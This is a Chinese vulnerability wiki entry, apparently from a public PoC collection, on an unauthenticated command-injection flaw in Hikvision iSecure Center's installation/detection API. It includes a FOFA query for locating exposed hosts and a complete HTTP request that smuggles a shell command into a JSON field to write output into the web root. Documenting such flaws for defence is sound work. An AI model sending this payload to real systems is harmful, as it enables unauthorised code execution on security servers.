

# 海康威视综合安防管理平台 detection 前台RCE漏洞

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：Hikvision iSecure Center
- 本文讨论：installation/detection machines.id命令替换
- 版本、权限与配置前提：无Cookie，Linux硬编码tomcat Web目录可写；版本未知
- 资料类型：命令注入PoC；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 原始请求/JSON未围代码栏，排版易损；无明确回读URL仅截图
- 在野已知/影响广无原始出处，不能视为已核实威胁事实
- 固定ceshi.txt可能残留，安装路径大小写/组件部署须限定

### 操作风险与恢复

- 执行文中载荷可能以目标进程权限启动命令或加载代码；权限受认证角色、操作系统账户及依赖版本约束，不能把 root/200 等通用字符串当成功证据

### 待核与来源

- 认证、实际进程身份/部署路径及在野证据待核
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


# 漏洞描述

海康威视综合安防管理平台 /center/api/installation/detection 接口处存在远程命令执行漏洞，未经身份验证的远程攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个 web 服务器。

影响范围

海康威视综合安防管理平台

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 中 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：app="HIKVISION-iSecure-Center"

POC/EXP：

```
POST /center/api/installation/detection HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_6) AppleWebKit/537.36(KHTML, like Gecko) Chrome/105.0.1249.139 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json;charset=UTF-8

{"type":"environment","operate":"","machines":{"id":  "$(id > /opt/hikvision/web/components/tomcat85linux64.1/webapps/vms/static/ceshi.txt)"}}
```


把命令执行结果写入txt文件




# 修复方案

关闭互联网暴露面或接口设置访问权限

升级至安全版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
